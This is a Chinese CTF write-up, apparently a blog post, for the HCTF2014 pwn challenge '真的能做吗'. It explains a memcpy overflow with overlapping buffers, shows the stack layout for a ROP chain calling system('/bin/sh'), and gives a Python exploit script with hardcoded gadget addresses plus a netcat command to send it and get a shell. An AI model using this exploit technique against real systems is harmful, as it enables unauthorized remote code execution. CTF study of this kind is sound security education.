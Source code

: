 ```yaml
---
layout: post
title: HCTF2014 真的能做吗600 writeup
catagories: [ctf]
tags: [ctf, writeup, hctf, xctf]
---
```

> wow的这一题的binary同时也是“真的能做吗”的binary.

这一题的问题，在分析wow这一题已经发现了，`memcpy()`函数产生溢出，
但`memcpy`函数的dst和src如果超过`0x30+0x8(rbp)+0x8(retaddr)`这么长，会产生dst和src重叠的问题
查上一下，`memcpy()`在处理重叠问题的时候会产生未知的效果，我也试了一下，它只
保留最终的`0x30+0x8+0x8`这些数据，前面的数据都会丢失，那也就是说，我们的可以利用的缓
冲区也就是从`ebp-0x30`到`retaddr`之间，直接改写，就改写了retaddr。

利用ROPGadget找到`pop rdi, ret`, 因为这题的libc是静态编译到wow的，所以可以找到`system()`
的地址，IDA里也可以搜索`/bin/sh`,万事俱备。

同时，由于需要绕过前面这个大循环，所以需要wow题的flag.此flag长度22,那么我们的栈大概是这样的布局

```
//memcpy之前
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     xxx
rip+0x10    xxx
rip+0x10    xxx

//memcpy之后
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     wowflag
rip+0x10    wowflag8
rip+0x18    wowflag22+"AA"
rip+0x20    poprdi_gadget
rip+0x28    binsh_addr
rip+0x30    system_addr
rip+0x38    "B"*8
rip+0x40    pop3ret_addr
...(以下每0x40字节重复)
```

因此生成shellcode的代码为：

```python
#!/usr/bin/env python2
from struct import pack

pad = "hctf{LJ_y6cdc_qweert!}"

libcbase = 0x00007FFFF75D3000

pop3    = 0x00007ffff75f35ad
poprdi  = 0x00007ffff75f59f2
system  = 0x00007FFFF7618310
binsh   = 0x00007FFFF774CFE7 

shellcode = ""
shellcode += pad 
shellcode += "A"*(24-len(pad)) 

shellcode += pack("<Q", poprdi)
shellcode += pack("<Q", binsh)
shellcode += pack("<Q", system)
shellcode += "B"*8

shellcode += pack("<Q", pop3)

fd = open("shellcodez", "w")
fd.write(shellcode)
fd.close()
```

输入`cat shellcodez -| nc addr port`拿到shell,flag在`/home/wow/`下
